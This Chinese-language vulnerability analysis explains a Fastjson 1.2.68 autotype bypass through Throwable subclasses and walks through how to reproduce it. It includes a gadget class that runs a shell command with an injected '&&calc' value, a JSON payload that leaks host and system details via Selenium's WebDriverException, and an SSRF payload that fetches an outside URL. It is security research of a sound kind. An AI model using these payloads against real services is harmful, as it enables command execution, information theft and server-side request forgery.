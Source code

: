 Fastjson 1.2.68 最新版本有限制 autotype bypass
==============================================

一、漏洞简介
------------

该漏洞和以往的 autotype bypass 不同，要求 gadget 必须继承自 Throwable
异常类，所以常见的 JNDI gadget 就无法在此处使用。

所以只能找在异常类中的构造方法、set方法、get方法、toString等方法内的敏感操作才会触发漏洞。

由于异常类中很少使用高危函数，所以我目前还没有找到可以 RCE 的
gadget，只找到了几个非 RCE 的 gadget。

二、漏洞影响
------------

Fastjson 1.2.68

三、复现过程
------------

反序列化时如果遇到 \@type 指定的类为 Throwable
的子类那对应的反序列化处理类就是 ThrowableDeserializer

1.jpg

漏洞点在 `ThrowableDeserializer#deserialze`

2.jpg

当第二个字段的 key 也是 \@type 的时候就会取 value 当做类名做一次
checkAutoType 检测。

调用 `ParserConfig#checkAutoType` 时注意第二个参数，它指定了第二个参数
expectClass 为 Throwable.class 类对象，通常情况下这个参数都是 null。

checkAutoType 一般有以下几种情况会通过校验。

1.  白名单里的类

2.  开启了 autotype

3.  使用了 JSONType 注解

4.  指定了期望类（expectClass）

5.  缓存 mapping 中的类

1.2.68 又更新了一个使用了 ParserConfig.AutoTypeCheckHandler
接口通过校验的类。

这个漏洞实际上就是基于第四种，指定了期望类的情况。

3.jpg

这里判断了如果期望类不为空且反序列化目标类继承自期望类就会添加到缓存
mapping 并且返回这个 class。

4.jpg

autotype 检测通过后就会开始实例化异常类对象。

同时把 message 和 cause 传给了 ThrowableDeserializer\#createException
处理。

5.jpg

依次按照以下顺序进行实例化构造方法参数1类型为String.class且参数2类型为Throwable.class，如果找不到就按照参数1类型为String.class，还找不到就取无参构造方法。

6.jpg

最后为被实例化后的异常类装配属性。

遍历 otherValues ，按照 key 去调用异常类的 set 方法，otherValue 是当前
jsonobject 对象中除了 \@type、message、cause、stackTrace
以外的其他字段。

例如 \@type 的类是 java.lang.Exception，otherValues 的第一条是
\"msg\"=\>\"hello\"。

那么这里就会先去实例化 Exception 对象，再去调用
exception.setMsg(\"hello\")

这里就是 set 触发的地方，而get方法则会在 JSON 转 JSONObject
的时候会调用该异常类的所有 get 方法。

也可以通过 \$ref 字段借助 JSONPath 去访问 get 方法，关于 JSONPath
，我在博客中的另一篇"fastjson 1.2.62 拒绝服务漏洞"文章中有提到过。

问题分析完了，下面就是如何去寻找合适的 gadget 触发漏洞了。

我自己先写一个存在问题的异常类，去验证一下问题。

    public class PingException extends Exception {

        private String domain;

        public PingException() {
            super();
        }

        public String getDomain() {
            return domain;
        }

        public void setDomain(String domain) {
            this.domain = domain;
        }

        @Override
        public String getMessage() {
            try {
                Runtime.getRuntime().exec("cmd /c ping "+domain);
            } catch (IOException e) {
                return e.getMessage();
            }

            return super.getMessage();
        }
    }
     复制

构造的 JSON 如下

    {"@type":"java.lang.Throwable", "@type":"PingException","domain":"b1ue.cn&&calc"}

7.jpg

当然这只是用来测试的，真实情况很少有人把执行命令的方法写进异常类。

不过我找到了 selenium 的一个敏感信息泄露，selenium
一般用来操控浏览器进行爬虫，在很多基于浏览器操作的爬虫项目里都会使用到
selenium，如果同时也使用了 fastjson ，就会存在敏感信息泄露的问题。

`org.openqa.selenium.WebDriverException` 会输出这些信息主机IP、主机名、系统名、系统架构、操作系统版本、java版本、Selenium版本、webdriver驱动版本等等一系列信息。

同时由于是异常类，父类的 getStackTrace()
也会被调用，会输出当前方法栈信息，可从中看出使用了什么框架。

8.jpg

这是反序列化`org.openqa.selenium.WebDriverException`类输出的信息。

### 漏洞复现

#### poc

    {"content":{"$ref":"$x.systemInformation"}, "x": {"@type":"java.lang.Exception","@type":"org.openqa.selenium.WebDriverException"}}

QQ截图20200528144437.png

还可以看到一些方法栈信息，看到一些服务端使用的框架的信息。

当然这个前提是需要WEB应用的classpath存在selenium-api。

作者提出还有一个思路可以SSRF(当然也需要相应的classpath)：

从mvn引入，或者自己写一个类：

    package org.joychou;

    import javax.activation.DataSource;
    import javax.activation.URLDataSource;
    import java.net.URL;

    public class DatasourceException extends Exception {

        public DatasourceException() {

        }

        private DataSource dataSource;

        public DataSource getDataSource() {
            return dataSource;
        }

        public void setDataSource(URL url) {
            this.dataSource = new URLDataSource(url);
        }
    }

2.png

#### poc

    {"@type":"java.lang.Exception","@type":"org.joychou.DatasourceException", "dataSource": {"@type": "java.net.URL", "val": "http://www.0-sec.org:8888/fastjson"}}

3.png

参考了链接
----------

> https://b1ue.cn/archives/348.html
>
> https://blog.csdn.net/caiqiiqi/article/details/106050079
